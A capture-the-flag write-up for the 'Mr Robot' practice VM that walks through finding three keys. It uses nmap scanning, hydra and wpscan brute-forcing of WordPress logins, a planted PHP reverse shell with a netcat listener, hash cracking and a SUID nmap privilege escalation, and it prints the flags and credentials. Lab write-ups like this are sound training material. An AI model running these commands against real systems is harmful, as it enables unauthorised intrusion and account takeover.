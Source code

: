 # Mr Robot

## Key 1

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find. 

The VM isn't too difficult. There isn't any advanced exploitation or  reverse engineering. The level is considered beginner-intermediate.

### Port scanning

Using **nmap**

```bash
sudo nmap -sV -O -p1-1024 --script vulners
```

| PORT    | STATE  | SERVICE  | VERSION      |
| ------- | ------ | -------- | ------------ |
| 22/tcp  | closed | ssh      |              |
| 80/tcp  | open   | http     | Apache httpd |
| 443/tcp | open   | ssl/http | Apache httpd |

### Web enumeration

Using **gobuster**

```bash
gobuster dir -u http://10.0.2.4/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,html,htm,txt -o out_enum.txt
```

From the enumeration process we found that a server is **Wordpress** based. 

From the file **robots.txt** we found two records:

- A file named **fsocity.dic**
- The first key **key-1-of-3.txt** > **073403c8a58a1f80d943455fb30724b9**

<br>

## Key 2

### Find valid username with Hydra

First we sorted the wordlist (**fsocity.dic**) and removed duplicates using and then tried to guess the username of the account.

```bash
sort  fsocity.dic | uniq > fsocity.dic.uniq
```

```bash
hydra -L fsocity.dic.uniq -p nopass \
-s 80 10.0.2.4 http-post-form -t 30 \
'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username'
```

![mr-robot-1](/home/kali/Pictures/mr-robot-1.png)

We found 3 valid usernames: **Elliot**, **ELLIOT** and **elliot**.

### Find password for Elliot

With a dictionary attack using **Wpscan**:

```bash
wpscan --url 10.0.2.4 -P fsocity.dic.uniq -U elliot
```

We found a valid combination found: **Username: elliot, Password: ER28-0652**

### Reverse shell on Wordpress

From [Pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) we downloaded the script for a **php reverse shell** then we pasted the code into a php file after **changing address and port**

![mr-robot-2](/home/kali/Pictures/mr-robot-2.png)

Need to start a **netcat listener on kali machine** with

```bash
nv -nvlp 4444
```

Then we can execute the shell visiting the php page on the link http://10.0.2.4/wordpress/wp-content/themes/twentyfifteen/404.php

To stabilize the shell we can run the command

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

On the **/home/robot** folder we found the **second key** and **password for robot user encoded with MD5**

![mr-robot-3](/home/kali/Pictures/mr-robot-3.png)

With [Crackstation](https://crackstation.net/) we can decode the hash, the password of user **robot** is **abcdefghijklmnopqrstuvwxyz**. Now we can see the content of the second key, **822c73956184f694993bede3eb39f959**

<br>

## Key 3

### Privilege escalation

With this command we print out any **executables which have SUID bit set**:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![mr-robot-4](/home/kali/Pictures/mr-robot-4.png)

**Nmap** is located on the system and is **owned by the root user**.  This means no matter what your UserID is the effective user id of the program would be 0 or **root** 

From [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#sudo) we found instructions to exploit **nmap** and get the root user shell.

```bash
sudo nmap --interactive
nmap> !sh
```

Now we are root! And in the **/root** folder there is the third key **04787ddef27c3dee1ee161b21670b4e4**
